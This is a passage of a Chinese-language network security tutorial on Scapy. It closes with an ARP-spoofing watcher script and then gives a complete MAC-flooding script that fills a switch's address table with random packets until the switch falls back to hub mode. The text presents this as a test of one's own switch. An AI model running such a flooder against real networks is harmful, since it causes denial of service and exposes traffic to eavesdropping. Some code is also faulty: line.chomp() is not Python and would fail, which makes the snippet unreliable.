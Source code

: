```
try:
        fh = open(arp_watcher_db_file, "r")
except IOError:
        print "Cannot read file " + arp_watcher_db_file
        sys.exit(1)    
 
for line in fh:
        line.chomp()
        (ip, mac) = line.split(" ")
        ip_mac[ip] = mac    
 
sniff(prn=watch_arp,
        filter="arp",
        iface=sys.argv[1],
        store=0)
```

        开始我们定义了一个信号处理函数sig_int_handler()，当用户中断程序时该函数会被调用。该函数会在ip_mac字典中，将所有已知的IP和MAC地址对应关系保存到一个文件当中。一开始我们读取这些ARP db文件，用目前已知的所有对应关系来初始化程序，若文件无法读取则退出。然后我们将文件内容一行一行地循环读取，把每一行分割为IP和MAC地址，将它们保存到 ip_mac字典中。我们再调用已知的sniff()函数，对每一个接收到的ARP数据包，调用回调函数watch_arp。<br>        watch_arp函数是整个程序中的核心逻辑部分。当嗅探到的数据包是is-at数据包时，则该数据包为一个ARP响应。紧接着我们首先检查IP是否存在于ip_mac字典中。如果我们没有发现对应条目，则其为一个新设备，并在屏幕上显示一条信息。否则我们将数据包中的MAC地址与字典中的MAC相比较，如果不同则响应很可是伪造的，我们也在屏幕上显示一条消息。在这两种情况下，都会用新的信息来更新字典。<br>**<br>**

**0x04 MAC-Flooder**

交换机和其他计算机一样，具有有限的内存，交换机中存放MAC地址信息的表格也同样如此，该表格记录哪个MAC地址对应哪个端口及其内部的ARP缓存。当交换机的缓冲区溢出时，它们的反应就会有些古怪。这将会导致交换机拒绝服务，以至于放弃交换行为而变得像正常的集线器。在集线器模式下，整体的高流量不会是你遇到的唯一问题，因此在没有附加操作下，所有已连接的计算机都会接收到完整的流量。你应该测试一下的你的交换机在这种意外情况下是如何反应的，接下来的脚本就可以做到这一点。它会产生随机的MAC地址，并将它们发送到你的交换机中，直到交换机的缓冲区被填满。

```
#!/usr/bin/python    
 
import sys
from scapy.all import *   
 
packet = Ether(src=RandMAC("*:*:*:*:*:*"),
                        dst=RandMAC("*:*:*:*:*:*")) / 
                        IP(src=RandIP("*.*.*.*"),
                            dst=RandIP("*.*.*.*")) / 
                        ICMP()    
 
if len(sys.argv) &lt; 2:
        dev = "eth0"
else:
        dev = sys.argv[1]    
 
print "Flooding net with random packets on dev " + dev    
 
sendp(packet, iface=dev, loop=1)
```

        RandMAC和RandIP负责随机地产生地址当中的每一个字节。其余的则由sendp()函数的循环参数完成。

**<br>**
